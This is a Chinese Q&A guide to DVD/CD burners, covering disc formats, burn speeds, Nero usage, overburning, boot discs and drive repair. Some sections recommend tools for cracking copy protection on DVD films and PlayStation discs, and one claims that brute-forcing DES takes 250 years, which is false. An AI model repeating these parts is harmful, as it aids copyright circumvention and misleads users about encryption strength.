答：与主板等配件一样，刻录机也有Firmware（固件），而且这对于刻录机而言相当重要。一般而言，采用FlashROM固件的产品可以很方便地升级，而如果使用的是EPPROM或MaskROM，就必须拆开刻录机的外壳，利用写入设备更新，非常不便。Firmware的升级是不容忽视的。为使自己购买的刻录机保持常新，大家有必要常去厂商的主页看一看，随时更新固件版本。以前，固件升级必须在DOS下进行，但在采用了一些新技术之后，有的产品也支持在Windows下的固件升级，进一步方便用户。升级固件后，DVD刻录机能够支持更多的刻录盘片，而且对于提高稳定性和兼容性也有所帮助。此外，少数产品在升级固件后，还可以提高刻录速度。

#### 5. 初步了解DVD刻录制式

问：现在DVD刻录有多个标准，能否分别介绍一下？此外，现在全兼容的DVD刻录机，应该使用哪一种刻录盘才能达到最好的兼容性？

答：DVD刻录机的制式之争已经是众人皆知的事情，不可否认，这也是阻碍其普及的重要因素之一。到目前为止，主流的DVD刻录标准主要分为三种：DVD-RAM、DVD-R/RW与DVD+R/RW，而且互相之间不兼容。由松下、日立以及东芝倡导的DVD-RAM是最早诞生也是第一个形成一定规模的DVD刻录标准。不过，DVD-RAM目前的前景不容乐观，在各项竞争中处于不利局面。由于DVD-RAM不能兼容DVD视频播放，而且成本极高，因此只能在专业数据存储领域生存，无法进入更为广阔的主流市场。相对而言，DVD-R/RW与DVD+R/RW更具亲和力，毕竟它们对DVD播放机与DVD-ROM有着很好的兼容性，而且成本较低。

可以肯定的是，DVD-R/RW在兼容性方面比较令人满意，基本上无需顾虑DVD+R/RW对其的冲击。DVD-R/RW由日本先锋公司独立支撑，是第二个被DVD Forum认可的DVD刻录规范。由于DVD-R/RW在兼容性以及成本方面取得了重大突破，可以完美地兼容DVD播放机，因此这项技术很快得到业界的广泛支持，成为如今DVD Forum的主推产品。至于主推DVD+R/RW的SONY与飞利浦，它们最初也是DVD Forum的正式成员，只不过在竞争失败之后另立炉灶。从兼容性角度来看，或许DVD+R/RW还不如DVD-R/RW。在很多早期的DVD影碟机中，DVD-R/RW刻录盘往往具有更加出色的兼容性，而对于更多用户关心的DVD-ROM以及Combo而言，DVD-R/RW刻录盘几乎可以做到100%支持，但是很多早期的DVD-ROM以及Combo却无法支持DVD+R/RW刻录盘。

#### 6. DVD刻录的倍数为何如此之低？

问：现在DVD刻录的最高速度只有18X，但是CD刻录可以达到52X，这是为什么？难道技术在倒退？

答：这并不是技术倒退，而是计算方法的关系。DVD刻录速度的“倍速X”与我们通常了解的CD-R/RW刻录速度有所区别，CD-R/RW的刻录速度1X大约是150KB/s，而DVD刻录速度1X大约是1350KB/s，前者仅为后者的1/9。150KB/s的速度计算根据是650MB的标准光盘具有74min长度，即650×1024÷74÷60≈150KB/s。4.7GB的标准DVD用类似方法计算，可得出其1X约为1350KB/s。

#### 7. DVD刻录盘选择多少速度才合适？

问：现在DVD刻录盘市场的选择比较多，从2X到16X都有，那么我的双16X刻录机应该使用多少速度的盘片才合适？

答：不少用户选择DVD刻录机时就把速度当作了主要指标，但在选择DVD刻录盘时却很容易忽略这一点。殊不知，DVD刻录机与盘片的关系有如汽车和马路。你拥有了一台高速DVD刻录机，只意味着你驾驶了一部跑车。假如使用低速DVD盘片，就好比让跑车在乡间小道上行驶，不管车的速度多快，都不会比盘片允许的最大速度快。这样的使用方法，无疑是对资源的极大浪费。

现在国内市场的DVD-R盘片主流速度是4～8X，DVD+R为2.4～8X，真正支持16X刻录的DVD-R或者DVD+R盘片比较少，而且价格较高。在DVD-RW与DVD+RW方面，2X和4X依旧是主流，能够达到8X复写的盘片相对少见。部分用户可能会想到采用CD刻录时的“超频刻录”，但是这一招在DVD刻录时肯定行不通。由于DVD刻录中的1X约等于CD刻录时的9X，因此当我们将2X的盘片用于4X刻录时，就好比对CD盘片进行18X的“超频刻录”，这是绝大多数DVD刻录盘无法承受的。

目前16X DVD刻录机十分普及，用户对刻录速度都有了较高要求。但是从理性角度出发，建议大家更多地考虑4X或者8X刻录盘，而非更高速度的产品。由于当前高速DVD刻录机并非采用恒定线速度模式，而是采用部分恒定线速度或者恒定角速度模式，因此所谓的标称速度仅仅是最高值。简单而言，16X刻录所耗费的时间不能简单理解为8X刻录时间的一半。基于这一点，我们认为16X DVD刻录机没有必要强求16X刻录盘，4X与8X都是相对合理的选择，其中4X的性价比更高。

#### 8. DVD刻录盘质量如何判断

问：目前DVD刻录盘市场鱼龙混杂，作为消费者，如何快速鉴别产品的质量？

答：主流市场的DVD刻录盘大多是OEM贴牌产品，所以学会判断盘片质量非常必要。首先观察正面印刷层面。在市场上，有一些DVD刻录盘的标签层没有涂上防护漆（或只涂上很少），这类刻录盘由于少了一层涂漆的保护，刻录之后的数据保存得不到保障，在刻录时也很容易受到磨损，因此不宜选用。另外，还有一些DVD刻录盘的标签层涂漆会有印刷二次（或以上）的情况，这类刻录盘也最好不要选用。

其次是观察内圈涂料层面。在选购DVD刻录盘时，可以先观察盘片最内圈的涂料是否均匀形成规则的圆形。某些刻录盘最内圈涂料会溢出，这一般都是制作粗糙的劣质产品，选购时要特别谨慎。另外，如果最内圈边缘的涂料已经变成灰黑色，这样的盘片最好都不要买，因为这种现象是由于空气与盘片上的涂料相互接触，盘片已经慢慢变质，使用不久就会出现在光驱上读不出数据的情况。

最后是观察整体涂料层面。在DVD刻录盘反光情况下，观察整体涂料层面是否有涂漏的地方。如果发现盘片有涂漏，这张盘片即使在刻录时没有问题，在光驱读取到漏涂地方时，也会产生文件毁损或程序不能正常读取的情况，因此遇到这样的DVD刻录盘最好不要购买。此外，部分有经验的用户会通过用手触摸DVD刻录盘最外边缘是否平整进行检查。如果盘片最外边缘平整，说明在进行刻录或读取数据时，盘片在高速旋转下不会乱摆或晃动，否则容易造成跳盘现象，对DVD刻录机或光驱造成损伤。

#### 9. 散装无标刻录盘亦有性价比

问：现在市场上有很多散装无标的DVD刻录盘，这种产品究竟能不能购买？

答：由于种种原因，市场上有一定数量的无标散装DVD-R产品，往往只是一张光光的盘片，没有任何品牌标识。事实上，它们基本都是OEM产品，只不过未打上标签。由于一般成桶销售（100片），因此价格较为诱人，其中不少8X DVD-R的单价只有1元。

对于这类售价低廉的产品，我们认为没有必要一概否定，因为其中部分产品还是可以很稳定地使用。从Nero CD-DVD SPEED数据写入测试来看，整个过程相当平稳，而且盘面扫描也顺利完成。当然，DVD刻录盘的质量并不能如此简单地评判，还必须检验其数据能保存多少时间。从性价比角度考虑，建议大家先少量购买，认准口碑后再批量采购。

#### 10. 真正理解DVD刻录速度

问：为什么现在16X刻录和8X刻录的速度差不多？发现以前4X刻录明显比2X刻录时间缩短一半，这又是什么原因？此外，现在的18X刻录似乎没有太多作用，是这样吗？

答：在回答这些问题之前，大家必须了解DVD刻录机方式共有四种：CLV恒定线速度模式、CAV恒定角速度模式、Z-CLV区域恒定线速度模式以及P-CAV局部恒定角速度模式。同样是16X，P-CAV会比Z-CLV略微快一些，而少数采用CAV模式的产品则更慢一些。由于DVD刻录从8X之后就不可能采用CLV方式，因此16X相对于8X的实际速度提升并不是非常明显。

如今市场上已经出现了18X的DVD刻录机，但是其实际意义却并不是很大。由于大多数18X DVD刻录使用CAV模式，相对于CAV模式的16X刻录并没有显著提高，与P-CAV/Z-CLV模式的16X相比甚至更慢一些。此外，刻录光盘使用的染料也需要与刻录速度相匹配，18X刻录盘目前仍较难买到。事实上，与18X刻录相比，我们认为DVD+/-RW刻录速度更加值得关注，毕竟DVD+/-RW基本都采用CLV方式，8X相对于6X的速度提升十分明显。

#### 11. 光雕刻录得注重实用性

问：现在连光雕刻录都分不同的种类，那么究竟哪一种才比较合适呢？

答：光雕刻录的实用性值得肯定，这令我们以最美观与简单的方式记录光盘信息。但是在选购光雕刻录机时，大家必须注意耗材的实用性。目前光雕刻录分为LightScribe和LabelFlash两种，其中后者的效果更好一些。LabelFlash最大的问题是耗材供货，相比于三菱/威宝对LightScribe的支持，富士胶卷对LabelFlash的支持力度非常有限，这导致国内用户几乎买不到LabelFlash刻录盘。此外，如今LightScribe的彩底版已经推出，清晰度与LabelFlash的差距并不大，因此建议更多考虑LightScribe光雕标准的产品。当然，对于那些并不需要光雕刻录的用户，完全可以摒弃光雕产品，因为光雕刻录机的价格还是相对较高。

#### 12. DVD刻录的品质优化

问：现在很多DVD刻录机都宣传拥有优化功能，这种技术究竟有没有用处？

答：从DVD刻录机的工作原理来看，激光头的功率控制十分重要，这几乎直接决定了刻录机的兼容性与刻录后盘片的可读取能力。目前有几家厂商都推出自动写入策略技术，通过刻录机本身对光盘的实际勘测，即时调整激光照射的功率与时序控制参数，的确有不错的效果。以明基为例，其SolidBurn萨利刀技术会根据未知盘片自动调整刻录方案，并把盘片信息保存到固件中，以保证刻录的品质与成功率。在众多写入策略技术中，明基的萨利刀技术可以说非常突出。此外，三星的Double-OPC、索尼的ROPC、NEC的Active OPC、LG的Running OPC，这些写入策略技术也很值得推荐。从实际使用效果来看，自动写入策略发挥了不小的作用，对于某些盘片来说，可谓是脱胎换骨的变化。但是，这项技术并非万能，因为盘片的特性千变万化，更何况依靠本身的芯片处理能力，能否在有限的校准区内完成参数调校还很难说，尤其是在碰到极为低劣的盘片时，自动写入策略也只能徒叹奈何。

### 二、基本刻录方法

#### 1. Nero Burning Rom的使用方法

问：一般刻录采用什么软件？具体的刻录模式分为哪几种？

答：光盘刻录通常是为了数据备份与保留，其它类型的刻录也都以此为基础。刻录软件的选择有很多，包括Nero Burning Rom、Easy CD/DVD Creator、Alcohol 120%等等。我们以最常见的Nero为例来介绍如何刻制数据光盘。打开Nero，在新建编辑中选择只读光碟，我们就可以看到向导界面，这里先要进行一个关于多记录的选择。如果我们使用一张空白盘片进行刻录，可以选择“开始多记录光碟”或是“无多记录”。在刻录内容不能刻满整张盘片且希望以后追加数据时，选择第一项。关于多记录还需要提醒：使用多记录可以让我们随时往光盘上面追加数据，但这也会使得光盘实际可用刻录空间略为减少。

### 2. 如何在 Nero Burning Rom 添加刻录文件

问：在 Nero Burning Rom 选择好刻录模式后，如何把需要刻录的软件添加进去？

答：点击“新建”后就可以进行刻录内容选择了。在下面的主视窗中，共有两个窗口，左边是文件浏览器，在这里选择要刻录的文件或目录，然后直接拖到右边的窗口中。在界面下方有一个蓝色柱状标签，说明目前选定准备刻录的文件有多大，在650MB以及703MB地方有警示线，提示用户不要超过光盘实际能承载的容量。

#### 3. 如何确定刻录速度和写入方式

问：Nero Burning Rom中最后要求设定速度与写入模式，这一步应该如何操作？

答：在 Nero Burning Rom 点击菜单中“文件” - “写入光碟”选项，接下来是写入过程的最后一步了。关于刻写速度，如果你对刻录机和盘片质量有信心，尽可能选择## 最高倍速，但如果是劣质散装盘，适当降低速度可以保证少出故障。另外，写速度同样受限于盘片的最高速度，如果盘片本身仅支持8X，则选项中最高仅提供8X写入。写入方式后面有一个“光碟一次性”的复选框，这其实是选择DAO（Disc At Once）模式的刻录。这种方式的刻录显然是用来复制光盘，可以确保刻录出来的光盘数据结构乃至光盘间隙（比如源盘刻录时应用烧不死技术，遇到Buffer Underrun问题可能会造成的间隙）都完全和源盘一样。DAO方式刻录与TAO（Track At Once）刻录方式有区别，DAO方式是把整张光盘当作一个Session一次完成处理，对刻录环境要求较高；TAO方式是以轨道为单位进行刻录，对刻录环境要求较低。一般整盘复制时选上此项，普通情况可以保持默认值。

#### 4. 直接拖曳的刻录模式

问：每次刻录都要使用软件，有没有更加方便的办法？
答：可以考虑Easy CD Creator。与Nero相比，Easy CD Creator的使用更为方便，特别是其DirectCD功能，是初学者最佳的选择。在DirectCD功能的帮助下，我们可以将刻录盘当成普通的硬盘来使用，在Windows资源管理器中任意拖放文件。打开Easy CD Creator的主界面，选择DirectCD。当DirectCD检测到空白光盘时，它会自动要求将其格式化为相应格式，便于在资源管理器中方便地使用。需要提醒大家的是，如果你第一次使用DirectCD，建议使用可复写刻录盘，万一操作有误还可以重新覆盖，以免造成损失。

在几个步骤之后，DirectCD就完成格式化工作，光盘便可随心所欲地使用。DirectCD的使用方便到极点，只要我们注意别在刻录时意外点击取消按钮即可，因为DirectCD与硬盘还是有一定的区别。当然，Easy CD Creator也能向Nero那样一次性制作CD。从某种程度而言，Easy CD Creator的操作与Nero有些相似，只不过它将窗口分为上下两个。点击“制作CD”按钮后，Easy CD Creator就开始刻录了。Easy CD Creator也支持DVD刻录，其使用方法是一致的。

#### 5. 如何刻录ISO镜像文件

问：我有不少ISO格式的镜像文件，应该如何刻录成光盘？
答：Easy CD Creator对ISO光盘格式有很好的支持。目前网上有不少大型软件采用了ISO格式，很多用户不知道如何使用。其实非常简单，在Easy CD Creator中，选择“文件”主菜单下的“从CD镜像制作CD”即可。同样，我们还可以把硬盘上准备刻录的文件保存为ISO格式，方便他人刻录。

#### 6. DVD的分段刻录方法

问：DVD刻录盘的容量比较大，可以选择分段刻录吗？
答：部分DVD-ROM以及操作系统环境难以适应分段刻录的DVD光盘，但是在某些特定的环境中，分段刻录是不得已而为之。在使用分段刻录功能之前，应该选择支持“Multi-Session”功能的刻录软件。目前Nero 5.5/6.0/7.0、Instant DVD 6.5、RecordNow Max都可以完美地支持分段刻录。同样大名鼎鼎的Easy CD Creator虽然能够实现DVD数据刻录，但在进行分段刻录时经常出现兼容性问题，因此应该谨慎使用。使用DVD分段刻录的方法非常简单，在选择刻录方式时不要勾选“终结此光盘”，并且禁用“DAO”方式，该刻录盘就可以继续使用剩余的空间。

#### 7. DVD刻录盘是否适合超刻

问：以前在CD刻录机上经常使用超刻模式，那么DVD刻录也可以这样吗？
答：尽管刻录机和CD-RW一样，也能支持超刻（OverBurn），但是一般情况下并不建议这样操作。如果超刻时DVD刻录盘无法继续维持写入动作，对激光头的损伤是相当严重的，毕竟DVD刻录还不像CD-RW那样成熟。在需要使用超刻功能时，激活Nero刻录软件中设置对话框的“超刻”选项，然后在拖曳数据后选择刻录按钮，此时Nero会自动要求用户确认是超刻功能。一般而言，普通DVD刻录盘的标准容量是4500MB，多刻100MB数据不会出现太大问题，但也不能百分之百地肯定。部分超刻后的DVD刻录盘可能会无法被DVD影碟机识别，具体取决于盘片的质量。

#### 8. 如何格式化DVD可复写盘

问：DVD的可复写盘有两种规格，应该如何进行格式化操作？
答：DVD-RW与DVD+RW有很大区别。对于DVD+RW而言，当你插入一张DVD+RW刻录盘时，刻录光驱可以自动格式化Lead-in区域，在没有读取或写入操作的情况下，刻录机会继续格式化光盘的剩余空间，可以很方便地开始对DVD+RW进行刻录工作，无需再手动对整个光盘进行格式化。另外，当你将光盘弹出刻录机时，后台格式化工作会自动停止，而且仍然可以被任何DVD播放器正常识别。如果再次把DVD+RW插入刻录机，格式化工作可以继续进行。
DVD-RW不支持后台格式化。不过，最新的DVD-RW刻录机通过Quick Format技术实现了类似DVD+RW后台格式化的技术。DVD-RW光盘经UDF格式化后，就可以像硬盘一样，在资源管理器内使用拖拉的方式操作，而不必再使用刻录软件。使用Quick Format技术必须满足两点要求：DVD-RW刻录机支持该功能，并且刻录软件支持该技术。老版本的Nero 5.5无法支持Quick Format技术中的UDF格式化，即便配合支持Quick Format技术的DVD-RW刻录机使用，也需要很长时间才能完成格式化。使用6.0新版Nero或者Instant DVD 6.5等刻录软件，实现DVD-RW刻录盘的格式化只需要短短几分钟！

### 三、特殊的刻录方法

#### 1. DVD光盘的复制方法

问：有时候并不需要刻录硬盘中的数据，而是完完全全地复制一张DVD光盘，应该如何操作？
答：与全DVD复制相当，这应当如何实现？
对于普通的DVD数据光盘，复制过程是相当简单的。我们既可以使用Nero中的DVD复制功能进行，也可以将所有数据转存至硬盘，然后进行刻录。如果对DVD-ROM以及DVD盘片质量有信心的话，甚至可以配合DVD-ROM进行直接复制。不过大多数DVD影碟不能如此轻易地复制，因为这些光盘在制作时采用了加密技术，推荐大家使用CloneDVD。CloneDVD能够将任何原始DVD标题截取、转换、写入DVD刻录盘，甚至一些常见的加密技术都能被其破解。
启动CloneDVD后，选择第二个“Clone DVD”标签，只有这个选项可以复制包括所有主题（Title）和DVD选单（Menu）。在随后出现的菜单中，将“DVD Video Files”的地址栏选择为要复制的DVD光盘所在盘符，建议使用DVD-ROM光驱或者COMBO驱动器。因为目前大多数DVD刻录机在读取DVD影碟时速度并不快，而且出于保护DVD刻录机激光头的考虑，应当尽量避免使用它来读取数据。
当CloneDVD识别到DVD影碟后，我们就可以看到要复制的主题（Title）。选中后单击Next按钮，这里可以选择需要复制的视频流、音频流，以及字幕等内容。如果需要一模一样的DVD，请全都选中。CloneDVD的复制过程非常智能化，甚至可以去掉一些不常用的字幕。再次单击Next按钮，CloneDVD会要求选择DVD刻录机（如果系统中有多部的话）。
最后，不要忘记设置存储读取数据的临时文件夹位置，一般是“C:\CloneDVDTemp”，请务必保证硬盘有足够的剩余空间。一般来说，剩余空间比要复制的DVD光盘容量大就可以了，但是考虑到稳定性，建议是DVD光盘容量的2倍为宜。如果DVD影碟源盘在DVD刻录机中，读取数据完成后，CloneDVD会提示用户更换空白的DVD刻录盘进行刻录，整个过程非常简单直观。

#### 2. CD超刻的基本方法

问：很多人都不赞成对DVD超刻，但是CD却可以超刻。那么，如何才能实现超刻？
答：普通CD-R刻录盘只有650MB容量，而部分大容量的光盘也顶多700MB。毫无疑问，在刻录一些文件时，不可能将刻录文件的大小正好控制在650MB或者700MB。很多时候，我们的刻录盘似差一点容量，多刻录一个文件可能多出几兆，而少刻录一个文件就要浪费大量的空间。此时就可以尝试一下刻录机的“超刻”功能，一般而言，多刻录1X MB的文件不会出现问题。
需要注意的是，并非所有的刻录机都支持“超刻”功能，部分不支持此功能的产品如果强行“超刻”可能会损坏刻录机。大家应首先确认刻录机是否支持“超刻”功能，打开Nero Burning ROM，依次单击“刻录机”、“选择刻录机”，就可以看到是否支持“超刻功能”，因为Nero Burning ROM会自动检测。事实上，目前主流刻录机基本上都能支持这一功能。
在使用超刻功能前，还需要进行一番设置。首先进入文件下的设置菜单，选择“高级属性”。这里必须把“启用超刻功能”选中，并且重新设定“最大CD长度”。由于目前CD-R盘片的理论最大容量为99分钟，因此设定为100分钟即可。当然，仅仅这样还不够，因为我们不能确认盘片有多大容量，万一超刻时超出其承受能力，很可能造成整张CD-R盘片报废。建议大家在超刻前使用Nero的CD Speed功能测试一下CD-R盘片的具体容量，然后再设定“最大CD长度”，可以确保数据不超出限定容量。
利用超刻功能刻录时与普通刻录有一定的区别。首先是将CD刻录属性中的多重区段关闭，这一点非常重要，不然刻录将失败。此外，在最后决定刻录模式前，我们最好选中“终结CD”，并且一定要将“写入方式”设定为“光盘一次刻录（DAO）”。做到以上两点之后，我们才可以进行超刻。当添加数据超过常规的703MB时，Nero Burning ROM会自动询问是否启用“超刻”功能，此时确认即可。

#### 3. PS光盘如何复制

问：我经常想复制一些PS光盘，但是Nero中的复制功能并不管用，还有什么其他方法吗？
答：对于PS和DC的游戏机光碟，普通的Nero以及CloneCD无能为力，推荐使用Discjuggler。我们并非肯定Discjuggler的加密拷贝能力强于CloneCD，而是说这两者可以互相补充，各有长处。Discjuggler采用向导操作模式，能很快上手。如果英文不好，建议下载一个汉化补丁程序。
打开Discjuggler后，向导会询问你所需要进行的操作，此时可以选择“光盘驱动器到光盘镜像文件”。事实上，Discjuggler的强大之处也正是在这里，它能够破解各种防拷贝技术，然后顺利地制作ISO文件。制作后的ISO文件符合规范，并非Discjuggler专用，大家可以使用Nero、Easy CD Creator等任何一款软件来刻录ISO文件，Discjuggler也能完成。
如果光盘质量有保证，而且刻录机具备防刻死技术，完全可以采取CD-ROM向CD-RW之间复制光盘，这样速度更快。在复制过程中，Discjuggler的破解能力同样可以起到很好的作用。此外，现在的刻录机读盘速度越来越快，价格也十分便宜，因此部分用户购买电脑时只安装刻录机，普通CD-ROM就省掉了。如此一来，CD-ROM直接与CD-RW之间复制光盘就不能实现了。不过，Discjuggler考虑得很周到，它特别设立了一个“从同一光盘刻录机复制光盘”，只要设定好临时文件夹以及复制速度，Discjuggler会轻松完成任务，非常方便。

#### 4. 加密光盘的刻录方法

问：对于一些私人珍藏或者具有商业机密的文件，仅仅将数据放在保险箱是远远不够的。为了防患于未然，最好的方法是利用软件技术进行加密，制作成加密CD。可是，现在Nero、EasyCD Creator以及WinOnCD都没有提供这一功能，请问有什么软件可以实现加密刻录？
答：经过一番试用比较，推荐使用SecureBurn，大家可以到http://www.secureburn.com/下载其最新版本。SecureBurn采用了DES加密算法，是由IBM公司在70年代发展起来，经过政府的加密标准筛选后，于1976年11月被美国政府采用。DES使用56位密钥对64位的数据块进行加密，并对64位的数据块进行16轮编码。从理论上说，使用穷举法来对付DES内码不太现实，因为以目前的硬件条件，穷举至少需要250年的时间。有了这项加密算法的保证，我们的密码就相当安全。当然，如果密码设定能再巧妙一些，就更加有保障了。

采用SecureBurn刻录的加密光盘，在读取时会要求使用者安装SecureBurn并输入相应密码。如果密码不对，光盘内的数据无论如何也不能被读取，只能看到一堆乱码。此外，我们还可以让SecureBurn直接将自身复制到光盘中，其它用户就无需到处寻找这款软件了，因为授权用户也需要安装SecureBurn软件才能输入密码。

SecureBurn的界面非常直观，采用类似Nero的拖曳式操作。我们可以从左边的文件浏览器中，将需要加密的文件以及文件夹拖曳到右边的窗口。当然，右上方的“SecureBurn CD”与“Write Secure CD to CD”一定要选中，不然制作出来的光盘将没有加密功能。

SecureBurn在一些细节上没有润化。大家在使用CD-RW进行加密刻录时，务必要单击“Options”按钮，将刻录速度设定到相应的最大反复擦写速度。SecureBurn的默认刻录速度是CD-R的最大写入速度，这对于CD-RW而言显然不合适。此外，如果你的刻录机具有“烧不死”功能，那么一定要打开“Underrun Protection”，至于“Test Mode”则不必使用。不过值得称赞的是，SecureBurn集成了CD-RW光盘格式化工具，在制作CD-RW加密盘时就无需调用其它软件了。

回到主界面，按下“Record”按钮，SecureBurn会要求输入密码。为了安全起见，建议将密码设定得长一些，尽量使用一些“￥、@、%、—、&”之类的特殊字符。此外，切勿使用自己的身份证号码或者生日来作为密码，这很容易让别人猜出。SecureBurn会要求再次输入密码。这个密码一定要牢记，否则你自己也无法读取这张光盘。在以上几个简单步骤之后，SecureBurn就开始刻录光盘了。

### 5. 如何使用 SecureBurn 制作的加密盘

问：由SecureBurn制作的加密盘在其他机器上如何使用？是否需要安装特殊的程序？
答：在使用由SecureBurn制作的加密盘时，我们必须执行光盘根目录下的Unlock命令，不必安装任何其它程序。如果你的光驱打开了自动运行功能，那么Unlock会自动执行，因为SecureBurn已经写好了Autorun文件，非常体贴。在任何一台机器上，只要是第一次运行该光盘，它都会要求安装SecureCD。经过重新启动之后，我们再次读取光盘时会看到要求输入密码的窗口。如果密码正确无误，SecureCD会马上退出CD光盘。这并非因为输入的密码有误，而是SecureCD一项非常不错的设计。大约1秒钟后，光盘就会再自动插入，显示被加密的内容了。同时，光盘看上去没有任何多余文件，非常舒服。

#### 6. 唯我独用刻录隐藏光盘

问：尽管加密光盘能够保护我们的隐私，但是其使用还是相对麻烦。此外，光盘中的内容对于意图不轨的人来说总是一种诱惑，有没有可能刻录隐藏文件？
答：事实上，我们刻录隐藏光盘时不需要任何特殊的软件，常规的刻录软件即可应付，只不过需要应用到一点小技巧。根据ISO 9660规范，刻录盘中每一个文件夹都有规范性的数据记录。只要对这一数据稍加改动，在Windows资源管理器或者DOS的DIR/A命令下就不会看到该文件夹。

首先打开EasyCD Creator，与Nero相比，它的镜像文件制作更加方便。将需要存放入光盘的文件拖曳到下方，进入属性菜单。在这里必须将文件系统设定为ISO9660，而不是默认的Joliet。下面我们需要使用可编辑二进制代码的ASCII字符编辑器，推荐大家使用著名的Ultraedit32。用Ultraedit32打开刚才制作的ISO镜像文件，按下Alt+F3查找需要隐藏的目录名。以WINDOWS目录为例，只要输入“WINDOWS”这几个字符即可，当然“Find ASCII”是一样要选上的。

需要注意的是，Ultraedit32可以查找到多个代码，而我们需要的是第三个。当Ultraedit32第一次找到ASCII之后，我们连续按下F3功能键两次，将光标正确定位。然后将蓝色高亮度字符前面的第八个字符选中，把它改为“04”并保存即可。现在回到EasyCD Creator，选择“从CD镜像刻录CD”，这一刻录过程可以使用默认值。在刻录完成后，可以立即用资源管理器试试看，此时Windows目录应该是看不到的。但是，当我们在资源管理器的地址栏中输入X:\WINDOWS（X为你的光驱盘符），一切内容都会展现出来。

#### 7. 如何刻录启动光盘

问：在硬盘出现问题后，使用软盘引导系统不仅速度很慢，还不能在DOS下使用光驱（Winme的启动盘例外），遇上软盘损坏就更加棘手。请问，能否自己制作启动光盘？
答：我们完全可以自己DIY一张启动光盘，再放入一些常用的工具软件，十分方便。与软盘相比，光盘的稳定性更高，而且非常灵活。常见的Nero、Easy CD Creator、WinOnCD等都能制作启动光盘，我们以Nero为例进行说明。

打开Nero主界面，不要使用向导模式，此时能看到功能选择菜单。我们选择“CD-ROM（开机）”，随后插入相应的启动软盘，并将模拟类型设定为“仿真1.44MB磁盘”。点击新建后，又回到熟悉的操作界面了。与平时一样，把其它工具软件拖曳到左边的窗口，选择刻录，这张启动光盘就差不多完成了！

### 四、刻录应用故障释疑

#### 1. 弹出舱门损坏

问：刻录机的舱门现在损坏了，Eject按钮根本无法起作用，这种故障应该怎么维修？
答：光驱的弹出按钮通常有3000次左右的使用寿命，但这只是平均值，如果运气不好或者操作不当的话，很可能损坏这个按钮，造成光驱不退盘。当遇到这一问题时，首先应查看在插入光盘时该按钮是否工作正常。如果正常，那么多半是仓门的弹簧老化，这一故障维修非常方便，花费的代价也很小。取下光驱后，保持仓门在开启状态，然后卸下光驱背面的四个螺钉，并将光驱上盖打开，同时卸下仓门挡板和光驱面板。有些光驱在四个角有特殊的卡锁，在打开上盖时要注意，千万不能强行用力。在打开上盖后，不要忘记将盘片的旋转托架卸下来。部分杂牌光驱的前置面板很松，只用几个塑料插槽固定，因此拆卸时要轻手轻脚，不然很容易弄坏。
随后，给光驱插上12V的电源插头，至于数据线就不必了。此时按下仓门退出按钮，基本上所有光驱在执行这步操作后都会带动内部齿轮的转动，其旁边的橡皮筋或是弹簧也会伸缩。这里特别要关注齿轮的运动是否正常，正常情况下是没有任何阻塞的。很多光驱仓门损坏都是因为齿轮旁的橡皮筋或是弹簧老化，造成机械传动力度不足，这种情况下所要做的仅仅是更换一根而已。采用橡皮筋的光驱很好解决问题，但要找到合适的弹簧就不太容易了。在这里告诉大家一个窍门：很多圆珠笔芯上的弹簧可以用来替代，不过要剪下一段并适当拉长以降低其劲度系数。
还可以通过根部的单点固定螺丝来调节松紧，这样就更加方便了。

#### 2. 弹出舱门间断性无法工作

问：刻录机的 Eject 按钮有时能够起作用，但有时候按下去没有任何反应，这是为什么？
答：如果光驱弹出舱门间断性无法工作，问题就比较麻烦了，不是更换弹簧就可以解决。根据经验，此时可以检测一下整个传动装置有没有断掉的地方。假若没有的话，一般是传动齿轮严重磨损造成打滑。更换传动齿轮也非常方便，难就难在找不到这类小零件。建议大家到二手市场找一下，那里有不少坏光驱，运气好的话说不定还能问老板免费要一个。实在不行，买个坏光驱也不过 10 块钱。当然，首先得确认故障出在传动齿轮上。

#### 3. 刻录盘兼容性严重降低

问：我的刻录机现在变得非常挑盘，原本可以顺利刻录的光盘，现在都无法识别了，显示为 Unknown Media。这是不是刻录机老化造成的？
答：很多刻录机在使用一段时间后都容易出现类似的故障。在正常情况下，刻录机的激光头必须与光盘表面保持一定的距离。太大了会不识盘，太小更是不行。出于成本考虑，大多数国内生产的刻录机，没有采用机械强度较高的材料来制作固定工具，这也是很多刻录机长时间工作后刻盘读盘能力下降的原因之一。
首先，我们要检查光盘托架上面的光盘臂压力是否够大。光驱随着使用时间的增加，光盘臂的压力逐渐减小，导致夹不住盘，盘片在光驱里打滑，当然不好读了。一个较为粗暴而又十分简单的方法是，在光盘转动时轻轻地按压光盘臂，如果读盘能力有所改善，就可以断定光盘臂的压力太小，不足以夹住盘片。光盘臂的材料具有一定韧性，我们可以轻轻地往下压一压，但是切记不要用蛮力，动作幅度一定要小，这主要靠手上的感觉。此外，部分刻录机还可以通过根部的单点固定螺丝来调节松紧，这样就更加方便了。

#### 4. 如何清洗刻录机的激光头

问：我的刻录机现在无法读盘，更无法写盘，很可能是激光头出现故障了。如何才能清洗刻录机的激光头呢？
答：激光头沾染灰尘是引起刻录机刻盘读盘能力严重下降的因素之一。它的维修操作具有危险性，一定要小心。在进行这项工作之前，先要准备好这些工具：普通十字螺丝刀、小十字螺丝刀（可以到眼镜店购买）、蒸馏水（家里的纯净水也可作为代用品）、棉花棒、若干柔软的纸巾，如果有条件最好再准备用于清除灰尘的气嘴一个。最后，一张整洁的工作台是必不可少的。按照维修常规在仓门开启的状态下打开面板和上盖，此时能清楚地看到光驱的核心——激光头组件。用棉花棒蘸上医用蒸馏水尽量轻柔地在透镜表面进行擦拭，注意不能让棉花棒的同一个位置两次以上接触到透镜表面，以保证粘附在棉花棒上的灰尘颗粒不会划伤透镜。

#### 5. 调整刻录机激光头功率

问：假如擦拭激光头还是无法提高刻盘读盘能力，还有别的挽救方法吗？
答：如果擦拭激光头无效，就需要使出最后的必杀技：调整激光头的发射功率。尽管这一招对于处理这类故障十分有效，但是客观来说它是损招，因为即使维修好，刻录机寿命也会大大降低，至于到底能用多长时间就要看运气了。另外要提醒大家的是，调整激光头的发射功率具有相当的危险性，如操作不当很可能让刻录机立即报废，不过与其让半死的光驱闲置着，还不如搏一下呢。
首先找到调整激光头发射功率的电位器，不同品牌刻录机的调节电位器位置不同，但大部分在激光头的前侧面或者背面，因此先要把激光头组件的固定螺丝拧下以便独立取出。在调整前，一定要在电位器的原始位置作一个标记，以免调整时幅度偏大。一般调节电位器是按顺时针旋转，调节时跟着感觉走就行了，调一下就试一下读盘效果是否有改善，若比以前更差的话，则反方向调节，并以此来判断正确的调整方向。注意旋转角不能大于 10 度，不然就有烧毁的可能，而且建议每次以 2 度为步进行尝试。

